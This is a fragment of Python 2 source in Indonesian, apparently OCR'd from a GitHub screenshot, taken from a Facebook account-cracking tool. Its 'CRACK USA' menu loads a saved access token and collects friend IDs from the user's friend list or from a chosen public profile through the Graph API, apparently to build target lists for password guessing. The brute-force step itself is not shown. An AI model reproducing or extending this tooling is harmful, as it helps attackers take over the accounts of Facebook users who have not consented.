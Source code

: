 #### CRACK USA ####
def crack_usa():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print '\033[0;97m   ! Token Invalid'
		os.system('rm -rf login.txt')
		time.sleep(1)
		Exit()
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print ('\033[0;97m   1.\033[0;97m Crack Dari Daftar Teman')
	print ('\033[0;97m   2.\033[0;97m Crack Dari Public/Teman')
	print ('\033[0;97m   0.\033[0;97m Kembali')
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
	pilih_usa()

### PILIH USA ###
def pilih_usa():
	teak = raw_input('\033[0;97m   >\033[0;97m ')
	if teak =="":
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_usa()
	elif teak =="1":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif teak =="2":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		idt = raw_input("\033[0;97m   • \033[0;97mID Public/Teman \033[0;97m:\033[0;97m ")
		try:
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			sp = json.loads(pok.text)
			print "\033[0;97m   •\033[0;97m Nama \033[0;97m:\033[0;97m "+sp["name"]
		except KeyError:
			print "\033[0;97m   ! ID public/teman tidak ada"
			raw_input("\n\033[1;97m   < \033[0;97mKembali \033[0;97m>")
			crack_usa()
		except requests.exceptions.ConnectionError:
			print '\033[0;97m   ! Tidak ada koneksi'
			Exit()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif teak =="0" or teak =="00":
		crack_teman()
	else:
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_usa()
	